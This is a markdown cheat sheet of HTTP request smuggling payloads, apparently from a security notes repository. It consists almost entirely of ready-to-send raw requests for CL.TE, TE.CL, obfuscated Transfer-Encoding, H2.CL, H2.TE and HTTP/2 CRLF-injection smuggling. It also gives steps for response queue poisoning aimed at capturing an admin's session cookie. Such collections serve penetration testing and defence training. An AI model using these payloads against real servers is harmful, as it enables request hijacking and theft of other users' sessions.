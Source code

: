 # Request Smuggling

## Finding CL.TE vulnerabilities using timing techniques
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 4
Transfer-Encoding: chunked

a
b
```

## Finding TE.CL vulnerabilities using timing techniques
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 100
Transfer-Encoding: chunked

0

x
```

## CL.TE vulnerabilities
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

## TE.CL vulnerabilities
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-length: 4
Transfer-Encoding: chunked

2b
GPOST / HTTP/1.1
Content-Length: 15

x=1
0
\n\r
\n\r
```

## TE.TE behavior: obfuscating the TE header
```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

## H2.CL vulnerabilities
```
POST / HTTP/2
Host: vulnerable-website.com
Content-Length: 0

SMUGGLED
```
Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.

## H2.TE vulnerabilities
```
POST / HTTP/2
Host: vulnerable-website.com
Transfer-Encoding: chunked

0

SMUGGLED
```

## Response queue poisoning via H2.TE request smuggling
```
POST /x HTTP/2
Host: vulnerable-website.com
Transfer-Encoding: chunked

0

GET /x HTTP/1.1
Host: vulnerable-website.com
```
Most of the time, you will receive your own 404 response. Any other response code indicates that you have successfully captured a response intended for the admin user. Repeat this process until you capture a 302 response containing the admin's new post-login session cookie.

## HTTP/2 request smuggling via CRLF injection
1. Send the most recent POST / request to Burp Repeater and remove your session cookie before resending the request.
2. Expand the Inspector's Request Attributes section and change the protocol to HTTP/2.
3. Using the Inspector, add an arbitrary header to the request. Append the sequence \r\n to the header's value, followed by the Transfer-Encoding: chunked header:

__Name__
```
foo
```
__Value__
```
bar\r\n
Transfer-Encoding: chunked
```

4. In the body, attempt to smuggle an arbitrary prefix as follows:
```
0

SMUGGLED
```
Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.
